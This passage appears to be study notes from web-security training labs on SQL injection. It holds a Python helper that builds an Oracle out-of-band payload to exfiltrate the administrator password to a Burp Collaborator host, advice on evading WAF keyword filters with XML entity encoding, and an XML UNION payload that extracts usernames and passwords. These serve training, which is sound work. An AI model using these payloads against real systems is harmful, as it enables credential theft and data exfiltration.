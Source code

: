 ```python
    x = f"""UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||({query})||'.{burp_collaborator_url}/"> %remote;]>'),'/l') FROM dual"""
    payload = f"'{quote_plus(x)}--"
    return payload

payload = parse_payload("SELECT password from users where username='administrator'", "o1qccbamtvzvyoh0ol4ql72zcqih67uw.oastify.com")
oast_sql(payload=payload)
```

## SQL injection in different contexts

In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the`S`character in`SELECT`:

```xml
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter.

## Lab: SQL injection with filter bypass via XML encoding

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a`users`table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>1</productId>
  <storeId>
    <@hex_entities>1 UNION SELECT username||':'||password from users
    <@/hex_entities>
  </storeId>
</stockCheck>
```
